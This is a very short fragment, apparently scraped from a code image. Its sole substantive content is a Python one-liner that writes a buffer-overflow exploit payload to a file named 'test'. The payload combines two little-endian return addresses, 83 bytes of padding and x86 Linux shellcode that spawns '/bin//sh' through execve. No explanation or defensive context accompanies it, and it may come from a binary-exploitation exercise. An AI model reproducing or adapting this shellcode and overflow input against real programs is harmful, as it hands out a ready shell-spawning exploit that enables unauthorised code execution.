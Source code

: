 python -c "print('\x10\xa0\x04\x08'+'A' \*83+'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + '\x0c\xa0\x04\x08')" > test
